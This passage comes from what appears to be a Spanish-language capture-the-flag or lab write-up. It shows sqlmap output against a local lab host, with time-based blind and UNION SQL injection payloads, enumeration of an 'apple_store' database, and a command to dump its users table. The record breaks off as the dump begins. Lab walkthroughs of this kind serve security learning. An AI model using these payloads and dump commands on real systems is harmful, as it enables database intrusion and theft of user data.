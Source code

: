 ```
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 8749 FROM (SELECT(SLEEP(5)))qTux) AND 'NVPu'='NVPu

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=test' UNION ALL SELECT NULL,NULL,CONCAT(0x716a707a71,0x4e4e49566876625a696f78554376434a656f7478576e6b7171427446716c685269424761574a6e4a,0x71716a7671),NULL,NULL-- -
---
[10:33:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:33:08] [INFO] fetching database names
available databases [5]:
[*] apple_store
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

[10:33:08] [INFO] fetching tables for database: 'apple_store'
[10:33:08] [WARNING] reflective value(s) found and filtering out
Database: apple_store
[2 tables]
+-----------+
| productos |
| users     |
+-----------+

[10:33:08] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 10:33:08 /2025-02-01/
```

Vemos que la tabla que mas nos interesa es la llamada `users`, por lo que sacaremos toda la info de dicha tabla.

```shell
sqlmap -r request.txt --dbs --batch -D apple_store -T users --threads 10 --dump
```

Info:

```
        ___
       __H__                                                                                                                                                 
 ___ ___["]_____ ___ ___  {1.8.11#stable}                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                    
|___|_  ["]_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:34:34 /2025-02-01/

[10:34:34] [INFO] parsing HTTP request from 'request.txt'
[10:34:34] [INFO] resuming back-end DBMS 'mysql' 
```